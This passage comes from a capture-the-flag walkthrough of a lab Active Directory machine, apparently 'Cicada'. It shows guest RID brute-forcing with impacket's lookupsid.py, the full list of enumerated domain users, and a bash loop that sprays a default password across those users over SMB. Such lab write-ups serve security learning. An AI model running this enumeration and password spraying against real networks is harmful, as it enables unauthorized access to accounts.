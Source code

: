 Lets try to login with the DefaultAccount, which *--didn't work--*. Infact, none of the `Local User`s worked. Clearly we need to look for more users, so lets try finding `SID`s some other way.

Let's try `lookupsid.py` by `impacket`

`lookupsid.py 10.10.11.35/guest:@10.10.11.35`
```
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

We finally get some `SidTypeUser`s.

Let's make a list and try them one by one against the default password

`brute_login.sh`
```bash
#!/bin/bash
while IFS= read -r line
do
    #The default password, check if login is possible"
    smbclient -U "$line%Cicada\$M6Corpb*@Lp#nZp!8" \\\\cicada.htb/DEV
    echo "queried user: $line"
done < "users.txt"
```
